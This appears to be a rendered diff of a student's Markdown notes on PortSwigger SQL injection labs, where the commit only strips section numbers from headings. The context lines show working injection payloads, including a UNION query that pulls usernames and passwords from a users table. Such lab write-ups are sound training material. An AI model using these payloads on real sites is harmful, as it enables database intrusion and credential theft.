

Before and after one commit to tnt2402/SOCIR-2023, a Markdown page: challenge_2/labs.md, 3 parts joined by grey strips. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

````diff
--- a/challenge_2/labs.md
+++ b/challenge_2/labs.md
@@ -55,7 +55,7 @@ Query:
 
 ![](imgs/2023-09-11-20-09-36.png)
 
-###  1.2. <a name='Lab02:SQLinjectionvulnerabilityallowingloginbypass'></a>Lab 02: SQL injection vulnerability allowing login bypass
+### <a name='Lab02:SQLinjectionvulnerabilityallowingloginbypass'></a>Lab 02: SQL injection vulnerability allowing login bypass
 [Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
 
 ![](imgs/2023-09-11-20-33-25.png)
@@ -94,7 +94,7 @@ GET /filter?category='+UNION+SELECT+@@version,NULL# HTTP/2
 
 ![](imgs/2023-10-09-12-57-44.png)
 
-###  1.5. <a name='Lab05:SQLinjectionattacklistingthedatabasecontentsonnon-Oracledatabases'></a>Lab 05: SQL injection attack, listing the database contents on non-Oracle databases
+### <a name='Lab05:SQLinjectionattacklistingthedatabasecontentsonnon-Oracledatabases'></a>Lab 05: SQL injection attack, listing the database contents on non-Oracle databases
 [Link](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
 
 ```
@@ -185,7 +185,7 @@ GET /filter?category='UNION+SELECT+NULL,'ViFdd7',NULL-- HTTP/2
 ```
 ![](imgs/2023-10-09-13-53-37.png)
 
-###  1.9. <a name='Lab09:SQLinjectionUNIONattackretrievingdatafromothertables'></a>Lab 09: SQL injection UNION attack, retrieving data from other tables
+### <a name='Lab09:SQLinjectionUNIONattackretrievingdatafromothertables'></a>Lab 09: SQL injection UNION attack, retrieving data from other tables
 [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
 
 ```
@@ -193,7 +193,7 @@ GET /filter?category='UNION+SELECT+username,password+from+users+WHERE+username='
 ```
 ![](imgs/2023-10-09-19-17-47.png)
 
-###  1.10. <a name='Lab10:SQLinjectionUNIONattackretrievingmultiplevaluesinasinglecolumn'></a>Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
+### <a name='Lab10:SQLinjectionUNIONattackretrievingmultiplevaluesinasinglecolumn'></a>Lab 10: SQL injection UNION attack, retrieving multiple values in a single column
 [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
 
 ```
````
Also changed, not shown: other parts of challenge_2/labs.md (+31 -31 lines).
